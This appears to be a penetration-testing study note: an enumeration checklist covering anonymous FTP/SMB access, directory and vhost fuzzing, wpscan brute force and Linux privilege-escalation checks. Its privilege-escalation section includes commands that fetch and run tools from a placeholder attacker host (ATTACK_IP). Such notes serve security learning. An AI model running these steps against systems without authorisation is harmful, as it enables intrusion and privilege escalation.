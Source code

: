 # Enumeration Methodology

### 1) Low Hanging Fruits

1) Check for anonymous access for FTP and SMB protocols

If yes, then grab any files you find within the network share or FTP folder

2) Check protocol/application version for possible public RCE or similar exploit (Example: EternalBlue)

3) Within a web page, check the page source for any comments that might have been left out (<!--) or interesting files that we might encounter

They may contain credentials, etc

### 2) Directory Fuzzing

Enumerate the directories of a webserver to check for admin pages, specific application directories, etc to further discover the webapp

You can also enumerate other interesting files like .txt, .conf or .php 

Wordlists to use: 

1) common.txt

2) directory-list-2.3-medium.txt

        feroxbuster -u http://DOMAIN.LOCAL/ -w /usr/share/wordlists/dirb/common.txt -C 404 -x txt

### 3) Subdomain/Vhost Fuzzing

Enumerate vhosts of the machine to discover another attack surface

Use the filters for false positives

Wordlists to use:

DNS-Subdomains-top-1million-11000.txt

        ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/DNS-Subdomains-top-1million-11000.txt -u http://domain.local/ -H 'Host: FUZZ.local.local' -fs NUM

### 4) CMS Enumeration

If we find a wordpress installation on the server, use wpscan tool to scan for information.

You can also conduct attacks with wpscan like bruteforce if we have a valid user.

Same methodology works with other CMS as well like Joomla and Drupal

    wpscan --url http://domain.local/

### 5) Linux Local Privilege Escalation LPE Enumeration

On a linux machine, we can do some checks to see if we can exploit them to do lateral movement, or even root the machine.

#### Checks:

1) Sudo privileges (Authenticated)

       sudo -l

2) SUID bit files

        find / -type f -perm u+s 2>/dev/null

3) Open ports/services/applications within the machine

        ss -tulpn
        netstat -ano

4) Check for running processes either as root, or as another target user for lateral movement

        wget http://ATTACK_IP:PORT/pspy64

        chmod +x ./pspy64

        ./pspy64

5) Check detailed contents of a directory like hidden files, file size, ownership

        ls -lah

6) Automated Enumeration

        wget http://ATTACK_IP:PORT/linpeas.sh

        chmod +x ./linpeas.sh

        ./linpeas.sh
